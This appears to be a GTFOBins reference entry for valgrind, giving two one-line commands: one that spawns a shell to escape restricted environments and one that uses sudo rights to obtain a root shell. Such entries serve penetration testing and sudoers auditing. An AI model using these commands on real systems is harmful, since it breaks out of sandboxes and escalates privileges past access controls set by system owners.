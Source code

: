 # GTFOBin: valgrind

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
valgrind /bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo valgrind /bin/sh
```